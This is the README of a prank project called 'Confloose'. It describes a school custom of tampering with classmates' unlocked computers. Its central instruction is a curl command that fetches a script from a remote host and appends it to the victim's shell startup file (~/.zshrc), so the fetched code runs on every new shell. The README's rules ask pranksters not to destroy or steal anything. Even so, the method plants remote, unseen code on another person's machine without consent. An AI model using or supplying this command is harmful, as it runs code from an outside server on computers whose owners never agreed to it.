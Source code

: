 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do for you.

The IT school I'm in has a prank that has been going on for quite some time --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl "http://confloo.se/hard" >> ~/.the_shell_rc``

So, as an example, confloosing someone using zsh :

``curl "http://confloo.se/hard" >> ~/.zshrc``

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.

